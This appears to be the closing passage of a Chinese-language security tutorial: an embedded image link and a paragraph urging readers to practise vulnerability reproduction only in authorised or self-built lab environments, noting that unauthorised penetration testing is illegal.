

请记住，所有这些操作**仅限在授权的靶场或自己搭建的环境中进行**，用于学习与研究。未经授权对他人系统进行渗透测试是违法行为。安全技术的提升离不开大量动手实践，希望大家能以此为基础，不断复现更多类型的漏洞，加深理解。